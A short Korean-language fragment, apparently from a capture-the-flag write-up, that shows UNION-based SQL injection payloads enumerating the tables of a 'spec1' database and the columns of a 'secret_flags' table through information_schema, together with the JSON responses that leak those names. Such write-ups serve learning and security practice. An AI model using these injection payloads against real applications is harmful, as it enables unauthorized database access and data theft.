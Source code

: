 ### spec1 데이터베이스 내 테이블 목록
`game_info` ,`game_stats`, `secret_flags`

' UNION SELECT 1,table_name,3,4,5,6,7,8,9,10,11,12 FROM information_schema.tables WHERE table_schema='spec1'-- 

```json 
{
    "id": "1",
    "game_name": "game_info",
    ...
  },
  {
    "id": "1",
    "game_name": "game_stats",
    ...
  },
  {
    "id": "1",
    "game_name": "secret_flags",
    ...
  }
```

### secret_flags 테이블의 컬럼 이름
`id`, `flag_name`, `flag_value`,`description`

' UNION SELECT 1,column_name,3,4,5,6,7,8,9,10,11,12 FROM information_schema.columns WHERE table_name='secret_flags'-- 

```json
  {
    "id": "1",
    "game_name": "id",

  },
  {
    "id": "1",
    "game_name": "flag_name",

  },
  {
    "id": "1",
    "game_name": "flag_value",

  },
  {
    "id": "1",
    "game_name": "description",

  }
```
